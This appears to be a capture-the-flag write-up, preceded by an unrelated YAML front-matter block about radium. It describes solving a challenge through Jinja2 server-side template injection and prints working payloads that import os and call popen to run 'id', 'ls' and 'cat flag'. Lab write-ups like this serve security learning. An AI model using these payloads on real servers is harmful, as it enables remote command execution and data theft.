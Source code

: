 ```yaml
---
title: "The Discovery of Radium"
date: "1902-12-26"
tags: ["Physics", "Research"]
excerpt: "An account of the discovery of radium and its properties."
---
```


## 🧠 What I Practiced/Learned/Discovered
- Learned about [Server Side Template Injection]( https://onsecurity.io/article/server-side-template-injection-with-jinja2/)

## 🔧 Tools used

**Programming language**
- `Python`
	- `popen`

**Linux shell**
- `ls`
- `cat`

# Steps
1. Searched about Server Side Template Injection
2. Found this article : https://onsecurity.io/article/server-side-template-injection-with-jinja2/
3. Tested the 1st example : ``{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}``
	1. `popen` is a command that let me run terminal commands : https://www.tutorialspoint.com/python/os_popen.htm
4. Tried replacing `id` in popen by `ls` to see if the command is run ``{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}``
5. It worked and showed the list of files with a file called `flag`
6. Replaced `ls` by `cat flag` and got the flag !!


